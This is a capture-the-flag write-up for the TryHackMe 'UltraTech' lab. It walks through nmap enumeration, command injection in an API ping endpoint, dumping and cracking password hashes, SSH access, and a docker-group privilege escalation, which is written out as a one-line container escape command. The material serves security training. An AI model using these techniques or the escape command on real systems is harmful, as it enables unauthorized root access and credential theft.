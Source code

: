 # THM - UltraTech

#### Ip: 10.10.112.141
#### Name: UltraTech
#### Rating: Medium

----------------------------------------------------------------------

ultra.png

```text


~_. UltraTech ._~

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.


[ Your Mission ]

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

Start this room by hitting the "deploy" button on the right!


Good luck and more importantly, have fun!
```

Note: This room doesn't have the traditional user.txt and root.txt flags. in this CTF I will still work my way up to the root level user, but won't have any flags to show along the way. 

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -p-  --min-rate 10000 10.10.112.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:15 CDT
Nmap scan report for 10.10.112.141
Host is up (0.12s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 8.17 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ sudo nmap -sC -sV -T4 10.10.112.141 -p 21,22,8081,31331                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 10:17 CDT
Nmap scan report for 10.10.112.141
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

Becuase FTP doesn't have anonymous logins enabled, lets start by enumerating HTTP. 

Looking at the sites we find a traditional looking website, as well as what appears to be an API. 

31331.png

8081.png

I'm definitely interested in exploring this API a bit more. Lets kick off some directory fuzzing against it:

dir.png

Ok interesting. Before diving into this lets explore port 31331 a bit too.

Looking at the robots.txt directory we find:

robots.txt

From there if we navigate to http://10.10.112.141:31331/utech_sitemap.txt we find a few more directories:

sitemap.png

Back on the main site we find a page that lists some potential usernames. We can keep this in mind for later.

users.png

using feroxbuster to enumerate port 31331 more we find a `/js` directory:

dir2.png

And in there we find a api.js file. 

api.js

I'm especially interested in the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` line. This seems to suggest that in `/ping` we can actually interact with the server. Lets try it:

ping.png

Cool, that worked! Lets see what other commands we can run:

ls.png

### Exploitation

We've got what appears to be LFI here, and the sqlite DB seems especially juicy. Lets see whats in there:

hashes.png

And just like that we have some hashes! Lets try to crack them using https://crackstation.net/:

crack.png

Awesome, we can now use these credentials to SSH in as user r00t:

```text
┌──(ryan㉿kali)-[~/THM/UltraTech]
└─$ ssh r00t@10.10.112.141 

<SNIP>

r00t@ultratech-prod:~$ whoami
r00t
r00t@ultratech-prod:~$ hostname
ultratech-prod
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ cd /root
-bash: cd: /root: Permission denied
```

### Privilege Escalation

Ok, I wonder if we are in a Docker container here. We should be able to escape the docker container by running:

```text
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

That worked! We are now root on this box!

root.png

And we can even grab the root user's SSH key:

id_rsa.png

Thanks for following along!

-Ryan

----------------------------------------------------------------------------



